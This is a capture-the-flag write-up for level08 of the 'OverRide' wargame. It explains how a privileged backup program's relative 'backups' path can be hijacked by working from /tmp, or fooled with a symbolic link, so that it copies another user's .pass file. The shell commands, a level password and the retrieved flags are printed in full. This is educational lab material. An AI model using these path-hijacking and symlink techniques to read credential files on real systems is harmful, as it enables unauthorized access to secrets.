# Hijacking relative path / Exploit symbolic link

```shell
┌──$ [~/42/2022/override]
└─>  ssh 192.168.56.101 -p 4242 -l level08
           ____                  ____  _     __
          / __ \_   _____  _____/ __ \(_)___/ /__
         / / / / | / / _ \/ ___/ /_/ / / __  / _ \
        / /_/ /| |/ /  __/ /  / _, _/ / /_/ /  __/
        \____/ |___/\___/_/  /_/ |_/_/\__,_/\___/

                       Good luck & Have fun

   To start, ssh with level00/level00 on 192.168.56.101:4242
level08@192.168.56.101's password: 7WJ6jFBzrcjEYXudxnM3kdW7n3qyxR6tk2xGrkSC

RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      FILE
Full RELRO      Canary found      NX disabled   No PIE          No RPATH   No RUNPATH   /home/users/level08/level08
```

The program opens a file and creates its backup into `/home/users/level08/backups` by writing byte per byte.

The issue is that `./backups/` folder name is used as relative path. Relative path change depending on the working directory’s of the current location.

So the relative path can be hijacked by changing working directory to `/tmp` and creating a new `./backups/` folder containing absolute path of `.pass` of `level09`.

Other way is to create a symbolic link to `/home/users/level09/.pass` and pass to as argument to the binary.

## Exploit
By creating new `./backups/` folder in `/tmp`
```shell
level08@OverRide:/tmp$ cd /tmp/
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09/
level08@OverRide:/tmp$ /home/users/level08/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
With symbolic link
```shell
level08@OverRide:~$ chmod +rwx .
level08@OverRide:~$ ln -s /home/users/level09/.pass pass
level08@OverRide:~$ ./level08 pass
level08@OverRide:~$ cat backups/pass
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```
